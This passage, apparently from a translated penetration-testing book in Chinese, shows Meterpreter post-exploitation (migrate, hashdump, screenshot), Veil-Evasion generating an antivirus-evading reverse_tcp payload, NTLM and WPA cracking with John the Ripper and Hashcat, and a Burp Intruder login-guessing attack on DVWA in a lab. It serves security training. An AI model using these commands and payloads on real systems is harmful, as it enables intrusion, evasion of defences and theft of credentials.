    **2648  2204  payload1.exe         x86   1        WS1\John                      C:\Share\payload1.exe**
    **2920  1008  WMIADAP.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\WMIADAP.exe**

    ```

1.  我们还可以迁移到另一个进程，以避免丢失恶意进程的连接。我们可以使用`migrate`命令，并指定目标进程标识符来完成：

    ```
    **meterpreter > migrate 716**

    ```

    输出如下：

    ```
    **[*] Migrating from 2648 to 716...**
    **[*] Migration completed successfully.**

    ```

1.  Meterpreter 还可以通过`hashdump`命令获取被黑机器上本地用户密码的哈希值（要成功执行此命令，我们需要先获得系统权限）：

    ```
    **meterpreter > hashdump**

    ```

    输出如下：

    ```
    **Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::**
    **Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::**
    **HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:04e8fedb35bde404593d20c030663d94:::**
    **John:1001:aad3b435b51404eeaad3b435b51404ee:259745cb123a52aa2e693aaacca2db52:::**

    ```

1.  Meterpreter 拥有多种功能，我们甚至可以通过`screenshot`命令截取受害者桌面会话的屏幕截图：

    ```
    **meterpreter > screenshot** 

    ```

    执行成功后，它会报告截图保存的路径：

    ```
    **Screenshot saved to: /root/elzpOBoE.jpeg**

    ```

1.  当完成与受害者的会话时，要终止会话，请执行`exit`命令：

    ```
    **meterpreter > exit**

    ```

    输出如下：

    ```
    **[*] Shutting down Meterpreter...**
    **[*] 10.0.0.163 - Meterpreter session 1 closed.  Reason: User exit**

    ```

### Armitage

必须提到的是 Metasploit 框架的图形界面，称为**Armitage**。它是 Metasploit 框架的图形界面，简化了与它的交互。Armitage 以视觉模式展示主机目标，并且在每种情况下都会提供漏洞利用的提示和建议。对于高级用户，Armitage 提供了远程管理和与 Metasploit 会话的协作功能。

虽然 Armitage 是一个主要由鼠标操作的图形用户界面，但你不能完全不使用控制台进行工作。因此，你还是得学习如何使用控制台命令。

从官方网站下载安装包[`www.fastandeasyhacking.com/`](http://www.fastandeasyhacking.com/)。

安装完成后，通过运行 Armitage 可执行文件启动 Armitage：

```
**java -jar armitage.jar**

```

之后，你将看到 Armitage 的界面：


该程序的界面足够简单易懂，如果你了解 Metasploit 框架的工作原理，就不会有任何困难。

### Veil-Evasion 框架

任何防御系统都可以被欺骗，反病毒软件也不例外。这只是绕过防御所需的时间问题。在这种情况下，自动化创建加密有效载荷的工具非常有用。用于此目的的最流行工具是 Veil-Evasion 框架。它作为 Metasploit 的附加组件，具有广泛的功能，并且易于使用。它唯一的缺点是它是“开箱即用”的，并且仅在 Kali Linux 操作系统环境中受支持。

最明显的特点如下：

+   框架的模块化

+   所有为 Windows 生成的`msfvenom`有效载荷都可以集成到框架中

+   菜单界面根据可用性原则进行了设计

+   自动完成和自动替换

+   几乎所有选项都有很好的文档记录（`./Veil.py -h`）

在您的工作站成功安装框架后，您可以通过简单的命令执行它：

```
**python Veil-Evasion.py**

```

之后，您将被欢迎进入 Veil-Evasion 框架的主菜单：

```
**Veil-Evasion | [Version]: 2.21.4**
**===============================================================**
 **[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework**
**===============================================================**
 **Main Menu**
 **46 payloads loaded**

**Available Commands:**

 **use            Use a specific payload**
 **info           Information on a specific payload**
 **list             List available payloads**
 **update      Update Veil-Evasion to the latest version**
 **clean         Clean out payload folders**
 **checkvt     Check payload hashes vs. VirusTotal**
 **exit            Exit Veil-Evasion**

 **[menu>>]:**

```

要创建加密有效载荷，您应执行以下操作：

1.  输入`use`命令。

1.  从出现的列表中选择要生成的有效载荷索引。

1.  接下来，您应使用`set`命令设置所需的选项。设置所有选项后，输入`generate`命令。

1.  接下来，您需要选择要使用的 shellcode：

    +   `msfvenom`（默认）

    +   自定义 shellcode 字符串

    +   具有 shellcode 的文件（原始）

1.  如果选择`msfvenom`，它将询问您要使用哪种有效载荷（例如，Meterpreter）以及生成 shellcode 时的选项。

1.  最后，框架将询问您要生成的输出文件的名称。

最后，Veil-Evasion 框架显示了生成的有效载荷的摘要信息：

```
**Veil-Evasion | [Version]: 2.21.4**
**=============================================================== [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework**
**===============================================================**

 **[*] Executable written to: /usr/share/veil-output/compiled/payload1.exe**

 **Language:    python**
 **Payload:     python/shellcode_inject/aes_encrypt**
 **Shellcode:   windows/meterpreter/reverse_tcp**
 **Options:     LHOST=10.0.0.169  LPORT=8080**
 **Required Options:      COMPILE_TO_EXE=Y  EXPIRE_PAYLOAD=X**
 **INJECT_METHOD=Virtual  USE_PYHERION=N**
 **Payload File:    /usr/share/veil-output/source/payload1.py**
 **Handler File:    /usr/share/veil-output/handlers/payload1_handler.rc**

 **[*] Your payload files have been generated, don't get caught!**
 **[!] And don't submit samples to any online scanner! ;)**

 **[>] Press any key to return to the main menu.**

```

这结束了我们对 Veil-Evasion 框架的回顾。最后，我们建议您尝试将其付诸实践。

# 破解工具

如今，哈希是大多数 IT 服务的基本安全机制。总体而言，哈希将任意长度的数据以不可逆的方式转换为固定长度的输出位字符串（这也是为什么它被称为单向转换）。哈希经常用于认证目的（存储和比较用户密码的哈希值，而不是以明文存储密码，这是不安全的），用于完整性控制（校验和）。

如今，我们无法想象不使用加密的技术。因此，恢复哈希数据的问题是当今 IT 安全世界中最重要的问题之一。在本节中，我们将看一些在执行此安全分析时可能有用的流行工具。

## John The Ripper

**John The Ripper**（**JTR**）是一个免费的程序，旨在从哈希中恢复密码。该程序的主要目的是审计 Unix 系统上的弱密码。该程序还可以审计 NTLM 哈希（Microsoft Windows）、Kerberos 等。JTR 有多种实现，适用于不同的操作系统。JTR 之所以流行，是因为它支持多种哈希类型。随着附加更新，还可以使用几种额外的哈希类型。

最新版本的 JTR 可在官方网站[`www.openwall.com/john`](http://www.openwall.com/john)下载。

在 Debian 或 Ubuntu Linux 中可以通过标准方法进行安装：

```
**apt-get install john**

```

要从哈希中恢复密码，只需运行 JTR 并将包含哈希的文件路径作为输入参数。JTR 会自动检测哈希类型并启动必要的程序。

JTR 有几种模式可以获得更高效的结果：

+   **单一模式**：此模式非常快速，但仅在我们拥有用户名的情况下使用。用户名作为密码与预设规则一起存储在 JTR 的配置文件中。在此模式下，我们执行命令`john -single hashes.txt`。

+   **字典模式**：在此模式下，JTR 使用字典和规则。我们可以使用配置文件中的规则（`john -w=dictionary.txt -rules hashes.txt`）以及特定文件中的规则（`john -w:dictionary.txt -rules=Rules.txt hashes.txt`）。

+   **增量模式**：这是一种暴力破解攻击，而不是简单的计数（即 1, 2, 3 ...），而是基于规则的。规则定义在`*.chr`文件中。要以增量模式运行，请使用命令`john -i:Alpha hashes.txt`，其中`Alpha`是类型。

+   **内建模式**：这是一个内建集合的暴力破解模式。例如，`john -i=uld8 -builtin = ld hashes.txt`，其中`-i = uld8`表示它将使用字符集`uld`并生成 8 个字符长的单词，`-builtin = ld`表示生成的单词来自字母和数字的混合集。

+   **外部模式**：在此模式下，单词将根据配置文件中相应部分的规则生成。例如，`john -e=Paralel01 hashes.txt`。

+   **掩码模式**：这是一种基于掩码的攻击。例如，`john -mask=\u\l\l\d\d\d hashes.txt`意味着生成的词语将类似于`Abc123`。

根据您的需求，您可以选择适合您的模式。

JTR 的一个重要特性是它支持工作会话，因此可以在 JTR 停止后恢复工作并运行多个 JTR 实例。

为此，请使用`-session=<SESSION NAME>`关键字启动 JTR：

```
**john -session=session01 i:Alpha passfile**

```

使用以下命令恢复它：

```
**john -restore=session01**

```

### 示例

之前在使用 Metasploit 框架时，我们已获得本地用户密码的哈希。现在让我们尝试使用 JTR 对哈希进行攻击以恢复密码。

为此，首先将用户 John 的哈希字符串放入单独的文件中：

```
**echo "John:1001:aad3b435b51404eeaad3b435b51404ee:259745cb123a52aa2e693aaacca2db52:::" > hashdump.txt**

```

在该文件上执行 JTR：

```
**john --format=NT hashdump.txt**
**Using default input encoding: UTF-8**
**Rules/masks using ISO-8859-1**
**Loaded 1 password hash (NT [MD4 32/32])**
**Warning: no OpenMP support for this hash type, consider --fork=4**
**Press 'q' or Ctrl-C to abort, almost any other key for status**
**12345678         (John)**
**1g 0:00:00:00 DONE 2/3 (2015-12-18 02:21) 2.083g/s 1797p/s 1797c/s 1797C/s 12345678**
**Use the "--show" option to display all of the cracked passwords reliably**
**Session completed**

```

在输出的第六行中，我们可以看到我们的密码`12345678`。因此，在我们的案例中，密码较弱，JTR 很快就恢复了它。

## Hashcat

Hashcat 是一个多功能工具，用于从哈希值恢复密码。Hashcat 因其支持大量的哈希算法、较快的工作速度以及便捷的配置和使用方式而广受欢迎。

Hashcat 的优点：

+   多线程

+   开源

+   跨平台（Linux、Windows 和 OS X）

+   超过 90 种哈希算法（MD5、SHA1、NTLM、MySQL、WPA 等）

+   可扩展的攻击模式

+   兼容 JTR

+   广泛的设置选项

但最重要的特点是它能够在图形处理器上工作，相较于 CPU 的运算速度，提供了显著的加速。

你可以从 Hashcat 的官方网站（[`hashcat.net`](http://hashcat.net)）获取 Hashcat。在大多数流行的 Linux 发行版中，它可以在其软件仓库中找到。例如，在 Debian 中，你可以使用以下命令：

```
**apt-get install hashcat**

```

Hashcat 包含多个带有不同前缀和后缀的可执行文件：`hashcat`、`oclHashcat`、`oclHashcat-plus`、`oclHashcat-lite`和`cudaHashcat`。每个可执行文件执行特定的任务，因此你应根据需求选择合适的文件。

+   `./hashcat`：这是使用 CPU 的主程序。它较慢，但支持最多的哈希算法。

+   前缀`ocl`（`oclHashcat`）：它使用 ATI 的 GPU。它支持有限数量的哈希算法，并内置支持字典攻击、掩码攻击和暴力破解攻击。

+   前缀`cuda`（`cudaHashcat`）：它类似于前缀`ocl`，但使用 NVIDIA 的 GPU。

+   后缀`plus`（`oclHashcat-plus`）：它支持所有使用 GPU 的 Hashcat 中最多的哈希算法。它针对许多哈希的字典攻击进行了优化。

+   后缀`lite`（`oclHashcat-lite`）：它针对单一哈希攻击进行了优化，是 Hashcat 中运行速度最快的可执行文件，但支持的哈希算法最少。

应注意，对于`cuda`和`ocl`版本的 Hashcat，我们需要安装支持 GPU 计算的适当专有驱动程序。

Hashcat 的执行语法如下：

`hashcat [options] hashfile [mask|wordfiles|directories]`

这里：

+   `options`：这些是攻击模式、哈希类型、规则等参数

+   `hashfile`：这是本地文件系统中包含目标哈希的文件

+   `mask|wordfiles|directories`：这是密码的来源

你可以通过执行`help`命令获取 Hashcat 的完整参数列表：

```
**hashcat --help**

```

例如，进行速度基准测试时，我们可以使用`-b`键：

```
**oclHashcat -b**

```

### 示例

让我们重复恢复用户 John 的密码的过程，就像我们在使用 JTR 时做的那样，但这次使用 Hashcat。与 JTR 相似，首先我们需要将哈希放入一个单独的文件，但 Hashcat 的要求稍有不同。从获得的哈希字符串`John:1001:aad3b435b51404eeaad3b435b51404ee:259745cb123a52aa2e693aaacca2db52:::`中，我们只需要获取 NTLM 哈希的 NT 部分。它是由冒号字符分隔的第四个字段哈希字符串，即`259745cb123a52aa2e693aaacca2db52`。

```
**echo "259745cb123a52aa2e693aaacca2db52" > hashdump.hc**

```

然后在这个文件上执行 Hashcat：

```
**hashcat -m 1000 hashdump.hc passwords.list**

```

这里：

+   `-m 1000`：这表示这是一个 NTLM 哈希

+   `hashdump.hc`：这是包含哈希的文件

+   `passwords.list`：这是包含密码的字典文件，用于迭代；在我们的案例中（为了测试目的），它包含了我们哈希的正确密码

执行命令的输出如下：

```
**Initializing hashcat v0.50 with 4 threads and 32mb segment-size...**

**Added hashes from file hashdump.hc: 1 (1 salts)**
**Activating quick-digest mode for single-hash**

**259745cb123a52aa2e693aaacca2db52:12345678** 

**All hashes have been recovered**

**Input.Mode: Dict (passwords.list)**
**Index.....: 1/1 (segment), 8 (words), 56 (bytes)**
**Recovered.: 1/1 hashes, 1/1 salts**
**Speed/sec.: - plains, - words**
**Progress..: 8/8 (100.00%)**
**Running...: 00:00:00:01**
**Estimated.: --:--:--:--**

**Started: Fri Dec 18 02:28:54 2015**
**Stopped: Fri Dec 18 02:28:55 2015**

```

输出信息足够详尽，我们可以看到恢复的密码。

现在，让我们尝试破解我们在使用`aircrack-ng`时获得的 WPA 握手。我们有 WPA 握手保存在`guest_dump-01.cap`文件中。在我们开始使用 Hashcat 之前，我们需要将握手格式化为 Hashcat 可以接受的形式。

为此目的，首先我们需要清理`*.cap`文件：

```
**wpaclean clear.cap guest_dump-01.cap.cap**

```

输出如下：

```
**Pwning cap.cap (1/1 100%)**
**Net 68:B6:FC:15:27:18 Guest**
**Done**

```

这里

+   `clear.cap`：这是新 CAP 文件的名称

+   `guest_dump-01.cap`：这是包含我们握手信息的文件

然后，我们需要将 CAP 文件转换为 Hashcat 格式的 CAP 文件（`.hccap`）。为此，请使用`aircrack-ng`命令并带上`-J`键：

```
**aircrack-ng clear.cap -J output_file**

```

输出如下：

```
**Opening clear.cap**
**Read 3 packets.**

 **#  BSSID              ESSID                     Encryption**

 **1  68:B6:FC:15:27:18  Guest                     WPA (1 handshake)**

**Choosing first network as target.**

**Opening clear.cap**
**Reading packets, please wait...**

**Building Hashcat (1.00) file...**

**[*] ESSID (length: 9): Guest**
**[*] Key version: 2**
**[*] BSSID: 68:B6:FC:15:27:18**
**[*] STA: F8:A9:D0:65:50:B6**
**[*] anonce:**
 **8A E5 48 30 74 C8 16 E4 18 72 4E 67 33 A4 ED 30** 
 **89 56 53 AE 87 F8 9A C6 77 63 A0 4B 17 C7 8D 37** 
**[*] snonce:**
 **AF E5 3D 67 9D CD BE 7C 8F CD 2E E2 50 34 5B D8** 
 **2B CA B5 D3 40 A1 8F 88 8D 68 00 AB 2C 92 8B 0F** 
**[*] Key MIC:**
 **BC C9 54 49 2B FF 81 C8 77 13 A3 1E 5D 7E 13 E6**
**[*] eapol:**
 **01 03 00 77 99 01 0A 00 00 00 00 00 00 00 00 00** 
 **01 AF E5 3D 67 9D BC DA 7C 8F CD 2E E2 FA 34 5B** 
 **D8 2B CA B5 D3 40 A1 8F 77 8D 68 00 AB 2C 92 8B** 
 **0F 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00** 
 **00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00** 
 **00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00** 
 **00 00 18 30 16 01 00 00 0F AC 02 01 00 00 0F AC** 
 **04 01 00 00 0F BC 02 4C 00 00 00** 

**Successfully written to output.hccap**
**Quitting aircrack-ng...**

```

结果，我们得到`output_file.hccap`文件。请注意，使用的*J*是大写的。

现在，我们可以执行 Hashcat 命令如下：

```
**cudaHashcat --force -m 2500 ./output_file.hccap ./wordlist.txt**

```

这里：

+   `--force`：此选项忽略警告

+   `-m 2500`：哈希类型是 WPA/WPA2

+   `--session=session05`：这是会话名称（用于可能的继续）

输出如下：

```
**cudaHashcat v1.37 starting...**

**Device #1: GeForce GT 730M, 2048MB, 758Mhz, 2MCU**
**Device #1: WARNING! Kernel exec timeout is not disabled, it might cause you errors of code 702**
 **You can disable it with a regpatch, see here: http://hashcat.net/wiki**
**/doku.php?id=timeout_patch**

**Hashes: 1 hashes; 1 unique digests, 1 unique salts**
**Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates**
**Rules: 1**
**Applicable Optimizers:**
*** Zero-Byte**
*** Single-Hash**
*** Single-Salt**
**Watchdog: Temperature abort trigger set to 90c**
**Watchdog: Temperature retain trigger set to 80c**
**Device #1: Kernel ./kernels/4318/m02500.sm_35.64.cubin**
**Device #1: Kernel ./kernels/4318/amp_a0_v1.sm_35.64.cubin**

**Generating dictionary stats for wordlist.txt: 96 bytes (100.00%), 8 words, 8 keyspace**

**Generated dictionary stats for wordlist.txt: 96 bytes, 8 words, 8 keyspace**
**INFO: approaching final keyspace, workload adjusted**
**Guest:20107a4da6c4:ac7ba167bdc5:Test!!!800**

**Session.Name...: cudaHashcat**
**Status.........: Cracked**
**Input.Mode.....: File (wordlist.txt)**
**Hash.Target....: Guest (68:B6:FC:15:27:18 <-> F8:A9:D0:65:50:B6)**
**Hash.Type......: WPA/WPA2**
**Time.Started...: 0 secs**
**Speed.GPU.#1...:        0 H/s**
**Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts**
**Progress.......: 8/8 (100.00%)**
**Rejected.......: 0/8 (0.00%)**
**HWMon.GPU.#1...:  0% Util, 39c Temp, N/A Fan**

**Started: Fri Dec 18 06:22:33 2015**
**Stopped: Fri Dec 18 06:22:35 2015**

```

在这种情况下，密码文本是`Test!!!800`。在输出的开始部分，你可以看到程序支持的 GPU。如果你有多个 GPU，即使它们没有合并，软件也会自动检测到它们。如果没有找到 GPU，你需要检查是否已安装专有驱动程序和附加库。

# Web 应用程序攻击工具

不用多说，随着每一天的过去，Web 应用程序在现代互联网生活中的作用比以往任何时候都更加重要，而它们的安全性仍然是各种公司面临的最重要和最复杂的任务之一。

其中大部分是没有适当应用安全管理流程、并且通常没有考虑安全性和控制的定制专有应用程序。因此，可能当前最受需求的渗透测试服务是 Web 应用程序安全分析，我们将回顾 Web 黑客和渗透测试人员使用的最流行工具。

## Burp Suite

Burp Suite 是一种称为拦截或攻击代理的工具，它允许用户检查和操作通过它的网络流量。

还有其他免费的和非免费的拦截（攻击）代理可供选择。然而，本书的作者习惯并坚持使用 Burp Suite，因此我们将详细描述这个框架。

### 注意

各种攻击代理的主要功能和能力是相同的（或者至少非常相似），因此你可以将以下的 Burp Suite 评测视为对整个工具类别的评测，而不仅仅是对某个特定软件的评测。

你可以使用谷歌搜索找到各种攻击代理的对比，选择最适合你需求的，并且是你个人工作中最舒适的工具。

其他值得尝试的拦截代理替代品可能是：

+   OWASP **Zed attack proxy** (**ZAP**)

+   OWASP WebScarab

+   Watobo

Burp Suite 是一个跨平台的 Java 框架，包含多种工具集成在一个图形界面中，能够在任何安装了适当 Java 软件的操作系统上运行。Burp Suite 的主要优势之一是通过特殊 API 和众多扩展的可扩展性。

官方网站（[`portswigger.net/burp/`](https://portswigger.net/burp/)）提供了两个版本的 Burp Suite：免费版和专业版。

免费版包含与专业版相同的工具，但功能有限且自动化程度较低。那些工具包括：

+   **Intercepting proxy**：这允许你查看和修改网络流量。

+   **Information aggregation tool**：这以便捷的方式展示收集的关于目标的信息。

+   **Spider**：蜘蛛程序检查目标网络资源的所有链接和页面，以确定它们的结构，并将这些信息传递给聚合工具。

+   **Repeater**：这允许我们发送自定义请求并分析响应。

+   **Intruder**：这是攻击自动化和自定义工具。

+   **Decoder**：这是一个有助于编码和解码字符块的工具。

+   **Sequencer**：这个工具分析各种令牌的熵值。

+   **Comparer**：这可以方便地比较请求和响应。

+   **Extender**：这允许安装和管理众多 Burp 扩展。

在谈论免费版与专业版之间的最显著区别时，专业版还提供以下功能：

+   使用扫描工具进行被动安全分析和主动网页漏洞扫描。

+   保存和恢复框架状态，包括所有请求和响应（对于大项目尤其有用）。

+   使用 Intruder 工具进行自动攻击时，使用各种内置的攻击负载。

+   执行目标和捕获的网络流量的搜索和各种分析类型。

+   利用 Intruder 工具中更好的性能。

+   安装仅限于专业版的某些扩展。

### 示例

在介绍了 Burp Suite 后，我们希望向你展示一个示例，进行一个 Web 应用程序的测试。让我们在实验环境中使用 DVWA。我们假设你已经在攻击机器上下载并启动了免费版本。

### 注意

另一个对 Web 渗透测试有用的工具是 **代理切换浏览器扩展**。由于大多数 Web 应用程序测试活动都是在浏览器中进行的，每次切换代理或完全关闭代理时都需要更改浏览器或操作系统设置，这并不方便。更好的方法是通过专用的浏览器扩展提供工具栏上的按钮。我们使用 Mozilla Firefox 和 Google Chrome 浏览器的 FoxyProxy 扩展。

让我们从这个示例开始：

1.  启动 DVWA 虚拟机，并根据你的攻击机器如何连接到实验环境来设置适当的网络接口设置（在我们的案例中，我们并没有启动整个实验网络，而只是启动 DVWA 虚拟机，并将接口设置为仅主机模式，从主机机器进行攻击）。

1.  启动 Burp Suite，进入 **Proxy** | **Options**，检查是否有激活的代理监听器在 `localhost:8080`（如果没有，请激活它）。它应该像这样显示：

1.  转到 **Proxy** | **Intercept** 标签页，检查 **Intercept** 按钮是否已选择。它将拦截网络请求，而不仅仅是记录它们。

1.  在浏览器中配置一个本地代理，端口为 8080，或者在 FoxyProxy 浏览器扩展中创建并激活它：

1.  使用 `http://10.0.0.5/DVWA` 链接在浏览器中打开 DVWA，你将在 Burp 中看到请求：

1.  只需检查请求并关闭拦截。这将允许将下一个请求转发到目标，并且不会拦截后续请求。

1.  在浏览器中登录应用程序，切换到 Burp 中的 **Proxy** | **HTTP History** 标签页，找到列表中的初始请求到 DVWA，右键点击它，并在上下文菜单中点击 **Add** 将其添加到范围。

1.  转到 **Target** 标签页。在这里，你将看到自从你开始拦截以来，浏览器请求的域名和主机（目标）。在 **Target** | **Scope** 标签中，你将看到当前已添加到安全评估范围内的目标。检查 `10.0.0.5/dvwa/` 是否在其中。

1.  现在，你可以让 Burp 隐藏所有不在范围内的内容。它仍然会捕获所有的网络流量，但不会通过显示它来打扰你。要隐藏不在范围内的所有内容，只需点击标签菜单下的过滤线，并勾选 **仅显示在范围内的项目** 复选框：

    对 **Proxy** | **HTTP history** 标签页做同样的操作。

1.  再次打开拦截功能，使用空凭证登录 DVWA，然后转到 Burp 中的 **Proxy** | **Intercept** 标签。你将看到 `POST` 请求体中的 `username` 和 `password` 参数没有值。

1.  右键点击请求体，在上下文菜单中选择**发送到入侵者**。然后切换到**入侵者**标签。

1.  现在，我们将在 DVWA 的认证子系统上执行字典猜测攻击。我们将尝试猜测正确的凭据。进入**位置**子标签并点击**清除 §**按钮以重置 Burp 建议的所有位置。

1.  将光标放在`username=`后，输入`§`字符两次，或者点击**添加 §**按钮两次。对密码参数做同样的操作。您应该得到如下内容：

1.  选择攻击类型**集群炸弹**，然后转到下一个**有效载荷**标签。

1.  在**有效载荷选项**部分添加几个词，并添加真实的 DVWA 用户名：

1.  将有效载荷集更改为 2，并为密码有效载荷添加几个词，包括真实的密码：

1.  进入**选项**，向下滚动，在**重定向**部分选择**仅限范围内**单选按钮。

1.  现在，向上滚动并点击右上角的**开始攻击**按钮，一个新窗口将会打开。它会显示攻击进度以及所有已发送和接收的请求与响应。

1.  通过点击相应的列对列表按响应长度进行排序，您将看到哪些有效载荷已成功（在当前示例中，成功登录和失败响应的长度不同）：

认证凭据被猜测出来了！当然，在实际项目中，您无法保证正确的凭据在有效载荷列表中，因此攻击的成功与否将取决于您的字典。

这只是一个快速且简短的实验示例，但截取代理的使用方法有很多，并且针对不同的目标有所不同。请花时间认真学习您选择的工具的手册。

# 总结

在本章中，您概览了几个流行的安全评估工具包，这些工具包广泛应用于各种黑客任务和项目，并且展示了它们在实验环境中的使用示例。您现在对它们的功能有了初步了解，为进一步学习奠定了基础。

除此之外，还有许多其他框架和独立工具，几乎涵盖了渗透测试员在项目中可能遇到或设想的所有任务。所以，当您有时间时，不要犹豫，探索新工具并在您的实验室中尝试它们——这也是您构建实验室的原因之一。

有大量无线安全分析工具，但有时在需要时很难在互联网上找到适合的工具。不过，我们推荐您访问一个仓库：[`github.com/0x90`](https://github.com/0x90)。它收集了大量软件和脚本，您可以在一个地方找到它们。

如果你刚接触渗透测试，还不确定应该将哪些工具加入你的工具库，一个好的起点是选择一个预装了大部分必要工具的渗透测试发行版。通常，我们使用 Kali Linux 作为发行版，但也有很多其他选择：

+   Parrot Security OS ([`www.parrotsec.org/`](http://www.parrotsec.org/))

+   Pentoo ([`www.pentoo.ch/`](http://www.pentoo.ch/))

+   Matriux ([`www.matriux.com/`](http://www.matriux.com/))

+   BackBox Linux ([`www.backbox.org/`](https://www.backbox.org/))

+   BlackArch Linux ([`blackarch.org/`](http://blackarch.org/))

+   Samurai Web Testing Framework ([`samurai.inguardians.com/`](http://samurai.inguardians.com/))

在下一章中，我们将帮助你准备无线黑客工作站，并向你展示在进行无线渗透测试时需要部署哪些工具。
